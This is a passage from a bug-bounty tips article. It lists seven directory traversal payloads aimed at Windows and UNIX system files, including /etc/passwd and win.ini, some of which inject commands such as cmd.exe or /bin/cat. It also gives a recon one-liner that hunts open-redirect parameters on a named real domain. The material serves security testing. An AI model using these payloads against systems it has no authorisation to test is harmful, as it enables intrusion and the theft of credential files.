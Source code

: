 Here’s an interesting list of 7 uncommon directory traversal payloads that can land some easy wins:

1.  `\..\WINDOWS\win.ini`
2.  `..%5c..%5c../winnt/system32/cmd.exe?/c+dir+c:\`
3.  `.?\.?\.?\etc\passwd`
4.  `../../boot.ini`
5.  `%0a/bin/cat%20/etc/passwd`
6.  `\\&apos;/bin/cat%20/etc/passwd\\&apos;`
7.  `..%c1%afetc%c1%afpasswd`

This list contains payloads for both Windows and UNIX-based operating systems. With payload number 2, 5 and 6 we can even find RCE (remote code/command execution) vulnerability!

## 3\. Find open redirect vulnerabilities with gf

By [@ofjaaah](https://twitter.com/ofjaaah)  
Source: [link](https://twitter.com/ofjaaah/status/1300551182843346951)

Here’s a cool one-liner to help find open redirect vulnerabilities. All you need is to provide the target domain name:

```bash
echo "http://tesla.com" | waybackurls | httpx -silent -timeout 2 -threads 100 | gf redirect | anew
```

This is what the command does in detail:

1.  Collect all URLs of the target domain from the [Wayback Machine](https://archive.org/)
2.  Attempt to download all the URLs quickly in 100 parallel threads in order to identify working URLs
3.  For all working URLs, match any potentially vulnerable parameters to open redirect
4.  Print out only unique, potentially vulnerable URLs

![Find open redirect vulnerabilities using tomnomnom gf](assets/1710309354-d356b03e7dec434161ffadc58d76ba0b.jpg)
